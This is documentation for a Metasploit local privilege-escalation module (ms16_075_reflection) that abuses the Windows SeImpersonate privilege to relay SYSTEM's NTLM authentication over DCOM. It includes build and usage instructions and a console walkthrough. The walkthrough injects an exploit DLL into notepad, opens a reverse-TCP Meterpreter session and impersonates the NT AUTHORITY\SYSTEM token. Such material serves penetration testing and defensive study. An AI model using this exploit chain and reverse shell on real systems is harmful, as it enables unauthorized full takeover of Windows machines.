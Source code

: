 ## Introduction
  This module will abuse the SeImperonsate privilege commonly found in 
services due to the requirement to impersonate a client upon 
authentication. As such it is possible to impersonate the SYSTEM account 
and relay its NTLM hash to RPC via DCOM. The DLL will perform a MiTM 
attack at which intercepts the hash and relay responses from RPC to be 
able to establish a handle to a new SYSTEM token. Some caveats : Set 
your target option to match the architecture of your Meterpreter 
session, else it will inject the wrong architecture DLL into the process 
of a seperate architecture. Additionally, after you have established a 
session, you must use incognito to imperonsate the SYSTEM Token.

## Build Instructions
This builds using visual studio 2017 and tools v141.  Attempts
to compile with previous verstions of build tools will succeed but
the resulting binary fails to exploit the vulnerability.

## Usage
  You'll first need to obtain a session on the target system.
  Next, once the module is loaded, one simply needs to set the 
```payload``` and ```session``` options, in addition to architecture.
  
  Your user at which you are trying to exploit must have `SeImpersonate` 
privileges.
  
  The module has a hardcoded timeout of 20 seconds, as the attack may 
not work immediately and take a few seconds to start. Also, check to 
make sure port 6666 is inherently not in use else the exploit will not 
run properly
  
## Scenario
```
  Name Current Setting Required Description
   ---- --------------- -------- -----------
   SESSION 48 yes The session to run this module on. Payload options 
(windows/x64/meterpreter/reverse_tcp):
   Name Current Setting Required Description
   ---- --------------- -------- -----------
   EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, 
process, none)
   LHOST ens3 yes The listen address (an interface may be specified)
   LPORT 3312 yes The listen port Exploit target:
   Id Name
   -- ----
   1 Windows x64 msf exploit(windows/local/ms16_075_reflection) > run 
[*] Started reverse TCP handler on -snip-:3312
[*] Launching notepad to host the exploit... [+] Process 3564 launched.
[*] Reflectively injecting the exploit DLL into 3564...
[*] Injecting exploit into 3564...
[*] Exploit injected. Injecting payload into 3564...
[*] Payload injected. Executing exploit..
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to -snip-
[*] Meterpreter session 49 opened (-snip-:3312 -> -snip-:55306) at 2018-08-03 01:54:18 -0400
meterpreter > load incognito 
Loading extension incognito...Success.
meterpreter > impersonate_token 
'NT AUTHORITY\SYSTEM'
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getsystem -t 1 ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > 
```
